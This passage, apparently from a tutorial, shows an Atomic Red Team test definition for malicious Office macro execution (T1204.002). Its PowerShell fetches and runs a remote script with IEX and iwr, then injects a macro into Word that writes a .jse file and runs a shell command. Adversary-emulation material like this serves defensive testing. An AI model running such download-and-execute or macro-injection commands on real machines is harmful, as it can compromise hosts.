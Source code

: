 ```javascript

Attack Commands:
Executor: powershell
ElevationRequired: False
Command:
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"ping 8.8.8.8`"`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "#{ms_product}"
Command (with inputs):
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"C:\Users\Public\art.jse`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"ping 8.8.8.8`"`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "Word"

Cleanup Commands:
Command:
Remove-Item #{jse_path} -ErrorAction Ignore
Command (with inputs):
Remove-Item C:\Users\Public\art.jse -ErrorAction Ignore

Dependencies:
Description: Microsoft Word must be installed
Check Prereq Command:
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
Check Prereq Command (with inputs):
try {
  New-Object -COMObject "Word.Application" | Out-Null
  $process = "Word"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
Get Prereq Command:
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
Get Prereq Command (with inputs):
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
[!!!!!!!!END TEST!!!!!!!]
        
```

The output above is clearly split up into multiple parts, each matching a test. Let's examine what type of information is provided in a test. We will use the test we want to run as an example.
